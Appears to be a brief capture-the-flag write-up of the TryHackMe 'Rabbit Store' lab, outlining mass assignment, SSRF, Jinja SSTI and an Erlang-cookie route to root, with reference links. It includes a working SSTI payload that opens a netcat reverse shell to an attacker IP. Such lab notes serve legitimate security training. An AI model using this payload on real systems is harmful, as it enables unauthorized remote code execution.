 
2025-04-03 14:44

Source: #Boot2root 
# TL;DR

**Rabbit Store** started with exploiting a **mass assignment vulnerability** to register an activated account, granting access to an API endpoint vulnerable to **SSRF**. Leveraging this **SSRF** vulnerability, we accessed the **API** documentation and discovered another endpoint vulnerable to **SSTI**, which we exploited to achieve **RCE** and gain a shell.

After obtaining a shell, we retrieved the **Erlang cookie**, which allowed us to enumerate the **RabbitMQ** instance and discover the password for the **root** user
# Real deal 

### Enum 

There are four open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **4369** (`EPMD`)
- **25672** (`Erlang Distribution`)

On port 80 we are greeted w a login page 

 


Jinja [[SSTI]] 
```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.62.140 1234 >/tmp/f').read() }}"}

```





### References
[TryHackMe | Rabbit Store](https://tryhackme.com/room/rabbitstore)

[Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
[Rabbit Store | THM Writeup :: CyberJagadeesh - Learn Cyber Security](https://cyberjagadeesh.github.io/posts/thm/rabbitstore/writeup/)
[Reverse Shelling via Jinja2 SSTI using ngrok | by V!hanga D | Medium](https://medium.com/@dvihanga32/reverse-shell-via-jinja2-ssti-using-ngrok-514f6641b2ee)
https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/
https://jaxafed.github.io/posts/tryhackme-rabbit_store/#shell-as-root